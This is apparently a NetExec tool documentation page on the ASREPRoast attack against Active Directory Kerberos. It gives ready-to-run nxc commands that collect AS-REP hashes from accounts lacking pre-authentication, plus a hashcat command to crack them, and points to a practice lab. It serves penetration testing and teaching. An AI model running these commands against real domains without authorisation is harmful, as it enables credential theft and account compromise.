 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast

{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```bash
nxc ldap 192.168.0.104 -u harry -p ' ' --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```bash
nxc ldap 192.168.0.104 -u user.txt -p ' ' --asreproast output.txt
```

{% hint style="info" %}
Set the password value to ' ' to perform the test without authentication
{% endhint %}

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashes where the Kerberos pre-authentication is not required

```bash
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail

```bash
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

### Cracking with hashcat

To crack hashes on the file output.txt with hashcat use the following options:

```bash
hashcat -m18200 output.txt wordlist
```

### Example

Forest machine is a good example to test **ASREPRoast** with NetExec

{% embed url="https://www.hackthebox.eu/home/machines/profile/212" %}

### Ressources

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat" %}

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/" %}
